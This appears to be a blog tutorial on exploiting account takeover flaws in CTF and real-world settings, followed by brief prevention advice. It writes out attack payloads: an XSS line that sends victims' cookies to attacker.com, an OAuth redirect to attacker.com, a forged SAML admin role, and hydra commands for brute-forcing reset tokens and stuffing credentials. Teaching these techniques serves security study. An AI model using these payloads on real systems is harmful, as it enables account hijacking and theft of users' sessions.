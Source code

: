```yaml
---
title: "Account Takeover Exploitation: From Weak Authentication to Full Control"
date: "2025-02-03"
author: "Sumon Nath"
tags: [CTF, cybersecurity, account takeover, authentication, SSO, exploitation]
---
```


# Account Takeover Exploitation: From Weak Authentication to Full Control

Account Takeover (ATO) vulnerabilities are critical security risks that allow attackers to hijack user accounts through various attack vectors. In CTF challenges and real-world scenarios, ATO can be achieved through weak authentication mechanisms, misconfigured Single Sign-On (SSO), password resets, and session hijacking. This guide explores all possible methods to exploit ATO vulnerabilities.

---

## **1. Understanding Account Takeover (ATO)**

### **What is Account Takeover?**
ATO refers to an attacker gaining unauthorized access to a user's account, often by exploiting authentication or authorization flaws. Common ATO techniques include:
- Password reset poisoning
- Session hijacking
- Exploiting OAuth and SSO misconfigurations
- Credential stuffing

### **Common Targets in ATO**
- Login portals
- API authentication endpoints
- Password reset workflows
- OAuth and SAML-based authentication flows

---

## **2. Identifying Account Takeover Vulnerabilities**

### **1. Exploiting Weak Password Reset Mechanisms**
#### **Reset Token Leakage**
Some password reset tokens are predictable or can be obtained from HTTP responses or emails.
```bash
curl -X POST "http://target-site.com/reset_password" -d "email=user@example.com"
```
Check if reset tokens are leaked via email preview or API responses.

#### **Guessing Reset Tokens**
```bash
hydra -l user@example.com -P token_list.txt http-post-form "/reset?token=^PASS^:Incorrect token"
```
If tokens are short and guessable, brute-force attacks may work.

### **2. Session Hijacking & Fixation**
#### **Stealing Active Sessions via XSS**
```javascript
document.location='http://attacker.com/log.php?cookie='+document.cookie;
```
Once the attacker retrieves session cookies, they can impersonate the victim.

#### **Session Fixation**
If a website allows session fixation, an attacker can set a known session for the victim:
```bash
curl -X GET "http://target-site.com/login" -H "Cookie: session=known_session_id"
```

### **3. Exploiting OAuth & SSO Misconfigurations**
#### **OAuth Token Leakage**
If an application allows redirecting OAuth tokens to external domains, an attacker can steal access tokens:
```bash
https://target.com/oauth/callback?code=xyz&redirect_uri=http://attacker.com
```
Monitor if OAuth tokens are sent to untrusted locations.

#### **Forging SAML Authentication**
If the SAML assertion can be modified before signing, attackers can elevate privileges:
```xml
<saml:Assertion>
   <saml:Attribute Name="Role">Admin</saml:Attribute>
</saml:Assertion>
```

---

## **3. Exploiting API Authentication Flaws**

### **1. Broken API Authentication**
If an API does not validate authentication properly, it may allow unauthorized actions:
```bash
curl -X GET "http://api.target.com/user/1" -H "Authorization: Bearer invalid_token"
```
If access is still granted, authentication is misconfigured.

### **2. IDOR in API Requests**
If an API allows access to user data via predictable identifiers:
```bash
curl -X GET "http://api.target.com/user/profile?id=1001"
```
Change `id=1001` to `id=1002` to check if another user’s data is exposed.

---

## **4. Automating Account Takeover Exploits**

### **Using Burp Suite for Token Interception**
- Intercept authentication requests and analyze tokens.
- Modify session cookies to check for authentication bypass.

### **Automating Credential Stuffing with Hydra**
```bash
hydra -L users.txt -P passwords.txt http-post-form "/login:username=^USER^&password=^PASS^:Login failed"
```

---

## **5. Preventing Account Takeover**

### **1. Secure Authentication Practices**
- Enforce strong password policies.
- Implement Multi-Factor Authentication (MFA).
- Use HTTP-only and Secure flags on session cookies.

### **2. Protecting OAuth & SSO**
- Validate redirect URIs to prevent token leakage.
- Use short-lived access tokens and refresh mechanisms.

### **3. Secure Password Reset Mechanisms**
- Use random, unguessable tokens for password resets.
- Implement rate-limiting and monitoring for reset attempts.

---

## **Conclusion**

Account Takeover vulnerabilities pose significant risks to user security. By understanding authentication flaws, session hijacking techniques, and SSO misconfigurations, attackers can gain unauthorized access to user accounts. Proper security controls and monitoring can prevent ATO exploits and protect user data.

🚀 Stay secure, and happy hacking!

---

💡 **Want more security insights?** Stay tuned for advanced authentication exploitation techniques!

